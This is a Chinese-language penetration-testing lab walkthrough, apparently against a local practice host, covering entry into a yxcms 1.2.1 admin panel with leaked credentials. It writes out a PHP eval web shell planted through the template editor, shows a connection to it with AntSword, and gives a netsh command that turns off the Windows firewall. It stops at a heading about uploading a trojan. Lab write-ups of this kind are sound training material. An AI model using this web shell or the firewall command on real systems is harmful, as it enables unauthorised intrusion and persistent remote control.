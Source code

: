 

分辨出网站使用的是yxcms，尝试访问。

然后在公告信息中发现后台用户名和密码

![image-20220811142846156](./st1.assets/image-20220811142846156.png)



根据提示成功进入管理后台，并发现网站版本为1.2.1

> 如果没有发现密码，可以通过探测 `beifen.rar` 检查网站版本号，然后到网上找该版本号存在的漏洞进行攻击。

![image-20220811143010076](./st1.assets/image-20220811143010076.png)



在后台“前台模板”模块中发现可以编辑模板，模板通常可以自定义php文件，而如果可以自定义php文件直接就可以上一句话木马了。

![image-20220811143241513](./st1.assets/image-20220811143241513.png)

![image-20220811143326582](./st1.assets/image-20220811143326582.png)



## 渗透攻击

嵌入一句话木马`<?php @eval($_REQUEST[666])?>`，然后保存

![image-20220811143422502](./st1.assets/image-20220811143422502.png)



上面御剑探测时没有探测到info.php在哪，所以到网上找一下yxcms的目录结构

`protected\apps\default\view\`

![image-20220811143650676](./st1.assets/image-20220811143650676.png)

到蚁剑中右键 添加数据：

`http://192.168.220.138/yxcms/protected/apps/default/view/default/info.php`

![image-20220811144748232](./st1.assets/image-20220811144748232.png)



到shell里看一下`ipconfig`

![image-20220811145021077](./st1.assets/image-20220811145021077.png)

查看防火墙状态 `netsh advfirewall show allprofiles`

![image-20220811145156669](./st1.assets/image-20220811145156669.png)

关闭防火墙 `netsh advfirewall set allprofiles state off`



### 制作并上传木马
